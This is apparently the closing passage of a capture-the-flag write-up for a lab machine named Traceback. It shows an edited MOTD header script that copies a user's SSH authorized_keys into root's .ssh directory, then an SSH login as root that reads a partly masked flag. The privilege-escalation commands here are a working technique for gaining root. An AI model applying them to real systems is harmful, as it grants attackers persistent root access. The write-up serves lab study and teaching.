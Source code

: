 Copying the authorized_keys from webadmin to root

```bash
sysadmin@traceback:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cp /home/webadmin/.ssh/authorized_keys /root/.ssh/
```

```bash
ssh -i webadmin root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 24 03:43:29 2020
root@traceback:~# cat root.txt
d498a4609e27263ea---------------

```


